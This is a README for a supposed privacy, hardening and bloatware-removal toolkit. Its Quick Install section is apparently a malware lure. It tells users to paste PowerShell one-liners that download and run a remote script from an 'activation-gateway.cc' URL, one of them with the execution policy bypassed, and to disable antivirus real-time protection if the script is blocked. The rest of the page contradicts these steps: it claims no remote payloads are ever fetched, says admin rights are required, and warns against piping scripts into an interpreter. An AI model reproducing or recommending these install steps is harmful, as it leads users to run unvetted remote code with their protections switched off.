

<div align="center">

# Security-Improvements: Auditable Scripts for Privacy, Performance, and System Control — Security...



[]() []() []()

</div>

---

Security-Improvements is a collection of scripts and tools for system hardening, performance optimization, and bloatware removal. Each component targets a defined set of controls: disabling non-essential telemetry and background services, restricting network and filesystem access, and reducing the default attack surface. The toolkit is intended for users who require explicit, auditable control over what executes on their systems. All changes are applied through readable scripts, so operators can review every modification before execution.

## 💻 PowerShell Quick Install

> [!TIP]
> **One-line setup** — just run the command below.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the install command
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## 🔧 Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Cross-platform hardening scripts** — Dedicated PowerShell and shell implementations apply consistent security baselines across Windows, Linux, and macOS, covering telemetry suppression, service minimization, and access control enforcement.
- **Bloatware and telemetry removal** — Identifies and disables non-essential background services, scheduled tasks, and diagnostic reporting channels, reducing idle resource consumption and outbound data exposure.
- **Privacy-focused defaults** — Applies settings that limit diagnostic data collection, restrict advertising identifiers, and disable optional analytics at the system level rather than relying on per-application configuration.
- **System optimization controls** — Tunes resource allocation, startup behavior, and background processing to reclaim CPU, memory, and disk I/O without disabling security-relevant functionality.
- **Modular, auditable scripts** — Each script is self-contained and readable, allowing selective execution and manual review of every change before it is applied. No opaque binaries or compiled payloads.
- **Reversible modifications** — Changes are documented and structured to support rollback via system restore points or manual reversal, keeping the operator in control of system state.
- **Offline reference guides** — Per-platform documentation details the settings applied, the rationale behind each change, and execution instructions, enabling review without network access.
- **Explicit scope boundaries** — The toolkit modifies only documented system settings and does not install third-party agents, establish persistent remote access, or transmit system data externally.

## How it works

Security-Improvements operates as a set of independent, auditable scripts rather than a single opaque binary. Each script targets a specific domain — telemetry and diagnostic reporting, unnecessary background services, scheduled tasks, startup entries, and bundled bloatware — and applies changes through documented, reversible system interfaces. Before any modification is applied, the scripts enumerate the current state of the relevant settings so that a baseline can be established; changes are then applied one category at a time, allowing execution to be scoped or reviewed per component.

The repository separates detection from remediation. Inspection routines report which settings are enabled, which services are running, and which applications are present, without altering the system. Remediation routines act only on the items identified, using the platform's native configuration mechanisms. The Windows scripts use PowerShell with registry and service APIs; the Linux scripts use shell with sysctl, systemd, and package management interfaces; the macOS scripts use shell with launchd and system preference tooling. No script downloads or executes remote payloads, and no script requires elevated privileges beyond those needed for the specific changes it performs.

Every modification is logged to a local file with the original value, the new value, and a timestamp. Where the underlying setting supports it, companion routines restore prior values from that log, enabling rollback without a full system reimage. The scripts are plain text and readable in full before execution, so each change can be verified against the system's own documentation. Bloatware removal operates on an explicit allowlist-derived inventory: applications are removed only when they match known bundled titles, and user-installed software outside that inventory is left untouched.

Changes are applied idempotently — re-running a script converges the system to the defined state rather than duplicating actions. Settings that the operating system may reset after updates, such as certain privacy preferences, are re-applied on subsequent runs. The scripts do not phone home, collect telemetry, or transmit any data; all processing and logging occur locally.

## Privacy

Security-Improvements is designed around data minimization and offline-first execution. No telemetry, analytics, crash reporting, or usage statistics are collected by the project, and no data is transmitted to the maintainers or any third party during normal operation.

All scripts and tools run locally on the target machine and operate only on local system configuration: registry keys, service states, scheduled tasks, kernel parameters, package lists, and similar settings. The project does not require an account, does not phone home, and contains no remote logging or update beacons.

Configuration files, logs, and backups generated during execution remain on the local filesystem under the paths documented for each script. Review these paths before running any tool and handle the resulting files according to your own data retention policy. Backups may contain sensitive system state, such as registry exports or service configurations; store and dispose of them accordingly.

Network access, where a script or tool initiates it, is limited to the package or update operations explicitly described in that tool's documentation. No background connections are established, and no identifiers are attached to outbound requests by the project itself.

Because the project is open source, every operation is auditable in the repository. Users are encouraged to inspect scripts before execution and to verify that behavior matches documentation. Any change to data handling practices will be reflected in the source and release notes.

## FAQ

**Is it safe to run these scripts on a production or daily-driver system?**
The scripts modify system-level configuration: registry keys, service states, scheduler entries, kernel parameters, and firewall rules depending on platform. Each change is intentional and documented in the corresponding platform guide, but the aggregate effect is a materially different system posture. Apply changes on a test system or a fresh snapshot first, review the script contents before execution, and maintain a verified rollback path. The project does not guarantee compatibility with third-party software that depends on the services or telemetry endpoints being disabled.

**Can I revert the changes?**
Reversal depends on the change class. Service and scheduled-task modifications are reversible by restoring prior state; registry and sysctl changes require the original values, which is why capturing a baseline (system restore point, configuration export, or full backup) before execution is a prerequisite, not a suggestion. Some hardening steps — particularly firewall default-deny rules and removed packages — require deliberate manual reversal. Always record the pre-change state.

**Which platforms are supported?**
Windows, Linux, and macOS each have a dedicated script and companion guide. The scripts are platform-specific and are not interchangeable. Feature parity across platforms is not guaranteed; each guide enumerates exactly what is applied on that platform.

**Does this conflict with antivirus, EDR, or endpoint management agents?**
Potentially. Hardening steps that restrict outbound traffic, disable services, or alter exploit-protection settings can interfere with security agents that rely on those components. In managed environments, group policy or MDM may re-apply settings and overwrite changes. Validate against your endpoint stack before deployment, and do not run these scripts on systems subject to organizational compliance controls without approval.

**Does disabling telemetry break updates or the operating system?**
The scripts target non-essential diagnostic and analytics reporting. Security updates, patch delivery, and core OS functionality are not intentionally disabled. However, some optional features and first-party integrations that depend on telemetry or connected-experience services may degrade or stop functioning. The platform guides identify these dependencies where known.

**What are the prerequisites?**
Administrative or root privileges are required. A baseline backup or restore point must exist. Review the relevant platform guide in full before execution — it lists the exact settings applied and any ordering requirements. Do not run scripts blindly or pipe them directly into an interpreter.

**How is privacy handled by the tooling itself?**
The scripts run locally. They do not transmit system state, telemetry, or usage data to any external endpoint, and they do not phone home. Any network-facing change they make (for example, DNS or firewall configuration) is a local configuration change, not a data collection mechanism. Verify this by reading the scripts — they are plain-text and auditable.

**Are the changes persistent across OS updates?**
Not universally. Major OS upgrades and feature updates can reset services, re-enable telemetry components, or overwrite policy. Re-audit the system after significant updates and re-apply as needed. Treat hardening as an ongoing maintenance task rather than a one-time operation.

**How do I verify the changes took effect?**
Each platform guide describes the settings applied. Confirm state directly through native tooling: service status queries, registry or configuration reads, firewall rule enumeration, and scheduled-task listings. Do not assume success from script exit codes alone — validate the resulting configuration.

**Is this a substitute for a full security program?**
No. This is a configuration-hardening and bloatware-reduction toolkit. It reduces attack surface and removes non-essential components; it does not replace patching, access control, monitoring, backups, or threat detection. Treat it as one layer, applied deliberately, within a broader security posture.

## Disclaimer

This project modifies core system settings, background services, and registry keys. All scripts are provided as-is, without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement.

- **Administrative privileges required.** Most scripts must run with elevated rights and will make persistent changes to system configuration, service states, and policy settings.
- **Create a recovery point first.** Before applying any script or tweak, establish a System Restore point, full system backup, or snapshot. Some changes are not reversible through the provided tooling.
- **Review before execution.** Read each script in full prior to running it. Understand the specific registry keys, services, scheduled tasks, and policies it alters, and confirm they align with your environment and threat model.
- **Potential for unintended effects.** Hardening measures can break application compatibility, disable functionality you rely on, interfere with managed device policies, or conflict with third-party security software. Test in a non-production environment first.
- **No guarantee of completeness.** The configurations reflect commonly recommended practices but do not constitute a comprehensive security program. They are not a substitute for timely patching, endpoint monitoring, access control, or professional security assessment.
- **Compliance responsibility rests with the operator.** You are responsible for verifying that applied changes satisfy applicable organizational policies, regulatory requirements, and vendor support agreements.
- **No liability.** The authors and contributors accept no responsibility for data loss, system instability, service disruption, reduced functionality, or any direct or indirect damages arising from the use or misuse of this project.

Use of this project constitutes acknowledgment that you accept these terms and assume full responsibility for the outcome of any changes made to your systems.

## License

This project is distributed under the MIT License. Permission is granted, free of charge, to any person obtaining a copy of this software and associated documentation files, to deal in the software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the software, subject to the conditions of the license.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the software. Redistributions of modified versions must retain the original license text and clearly indicate the nature of any changes made. The project name and attribution to its original authors must not be removed from derivative works.

Use of this software does not grant any rights to trademarks, service marks, or trade names of the project or its contributors. No endorsement by the original authors is implied by the distribution of derivative works.